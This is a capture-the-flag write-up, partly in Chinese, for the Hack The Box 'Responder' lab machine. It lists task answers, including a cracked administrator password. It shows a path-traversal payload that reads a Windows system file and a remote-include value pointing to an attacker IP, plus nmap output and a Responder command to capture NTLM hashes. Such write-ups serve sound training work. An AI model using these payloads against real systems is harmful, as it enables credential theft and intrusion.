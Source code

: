 <center>Responder</center>



[toc]







## Responder

> Responder





### 1. task

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?

```shell
unika.htb
```

2. Which scripting language is being used on the server to generate webpages?

![image-20241127160422068](./assets/image-20241127160422068-1732694665608-1.png)

```shell
php

# 跳转，修改本机hosts文件
sudo vim /etc/hosts

服务器ip 
```

3. What is the name of the URL parameter which is used to load different language versions of the webpage?

```shell
http://unika.htb/index.php?page=french.html
page
```

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

../../../../../../../../windows/system32/drivers/etc/hosts
```

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
//10.10.14.6/somefile
```

6. What does NTLM stand for?

```shell
New Technology LAN Manager
```

7. Which flag do we use in the Responder utility to specify the network interface?

```shell
-I
```

8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```shell
john the ripper
```

9. What is the password for the administrator user?

```shell
badminton
```

10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```shell
5985
```





### 2. NTLM协议

> NTLM (NT LAN Manager) 是一种挑战/响应认证协议：[ntlm](https://cloud.tencent.com/developer/article/2227928)

```shell
用于 Windows 网络认证
支持用户和计算机认证
提供消息完整性和机密性
包含 NTLMv1 和 NTLMv2 两个版本
```

````shell
1. windosw服务端


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```

2. linux 服务端


#### 安装必要组件
```bash
# Debian/Ubuntu
sudo apt update
sudo apt install samba winbind libpam-winbind libnss-winbind

# CentOS/RHEL
sudo dnf install samba samba-winbind
```


#### 配置 Samba
```ini:/etc/samba/smb.conf
[global]
    workgroup = WORKGROUP
    security = ads
    realm = DOMAIN.COM
    winbind use default domain = yes
    winbind enum users = yes
    winbind enum groups = yes
    template shell = /bin/bash
```


3. linux 客户端


#### 安装客户端工具
```bash
# Debian/Ubuntu
sudo apt install cntlm

# CentOS/RHEL
sudo dnf install cntlm
```


#### 配置 CNTLM
```ini:/etc/cntlm.conf
Username    domain_user
Domain      DOMAIN
Password    password
Proxy       proxy_server:8080
NoProxy     localhost, 127.0.0.*, 10.*, 192.168.*
Listen      3128
```

````





### 3. falg

> 获取flag
>
> Responder: [github](https://github.com/sponsors/lgandx)
>
> Responder 是一个 LLMNR、NBT-NS 和 MDNS 毒化器。 

```shell
# namp -p- 全端口  --min-rate 秒数，提高效率
nmap -v -p- --min-rate 5000 -sV -sC IP

80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Unika
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 安装Responder
sudo apt install responder

# 监听网卡
sudo responder -I tun0

```



